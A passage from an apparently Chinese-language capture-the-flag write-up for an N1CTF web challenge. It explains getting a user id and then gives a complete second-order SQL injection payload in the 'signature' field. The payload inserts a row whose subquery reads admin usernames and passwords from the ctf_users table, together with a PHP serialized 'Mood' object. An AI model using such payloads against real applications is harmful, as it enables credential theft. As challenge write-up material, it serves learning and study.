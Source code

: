 &emsp;&emsp;具体操作如下：1、获取用户的`id`：
<div align="center">
    <img src="/images/posts/n1ctf/37.png" />  
</div>
&emsp;&emsp;所以我的`id`就是4。接着进行二次注入，payload：
```
signature=1`,1),(4,`admin333`,(select concat(username,0x2c,password) from ctf_users where is_admin=1),`O:4:"Mood":3:{s:4:"mood";i:0;s:2:"ip";s:14:"220.181.171.99";s:4:"date";i:1520667855;}`)#&mood=0
```
<div align="center">
    <img src="/images/posts/n1ctf/38.png" />  
</div>
&emsp;&emsp;最后刷新页面就可以获得`admin`的账号密码了。
<div align="center">
